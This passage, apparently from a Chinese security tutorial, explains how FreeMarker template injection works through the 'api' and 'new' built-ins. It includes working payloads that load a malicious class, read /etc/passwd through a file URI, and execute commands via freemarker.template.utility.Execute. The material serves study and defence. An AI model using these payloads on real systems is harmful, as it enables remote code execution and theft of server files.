 ```xml
</body>
</html>
```

‍

### 内置函数危险使用

在模板引擎渲染模板时，如果模板中存在恶意代码，进而会在渲染时执行恶意代码。不同的模板触发漏洞的场景也不同

FreeMarker是存在api 和new的内建函数能够进行命令执行

‍

#### &lt;span style="font-weight: bold;" data-type="strong"&gt;api&lt;/span&gt;

‍

api 函数必须在配置项 `api_builtin_enabled`​ 为 `true`​ 时才有效，而该配置在2.3.22\*版本之后默认为 false

‍

我们可以通过 api 内建函数获取类的 classloader 然后加载恶意类，或者通过Class.getResource 的返回值来访问 URI 对象。 URI 对象包含 toURL 和 create 方法，我们通过这两个方法创建任意 URI ，然后用 toURL 访问任意URL

‍

```jsp
// 加载恶意类
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("Evil.class")}

// 读取任意文件
<#assign uri=object?api.class.getResource("/").toURI()>
  <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
  <#assign is=input?api.getInputStream()>
  FILE:[<#list 0..999999999 as _>
      <#assign byte=is.read()>
      <#if byte == -1>
          <#break>
      </#if>
  ${byte}, </#list>]
```

‍

#### &lt;span style="font-weight: bold;" data-type="strong"&gt;new&lt;/span&gt;

‍

主要是寻找实现了TemplateModel 接口的可利用类来进行实例化 &lt;span style="font-weight: bold;" data-type="strong"&gt;。&lt;/span&gt;​`freemarker.template.utility`​ 包中存在三个符合条件的类，分别为

- Execute 类

```jsp
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
```
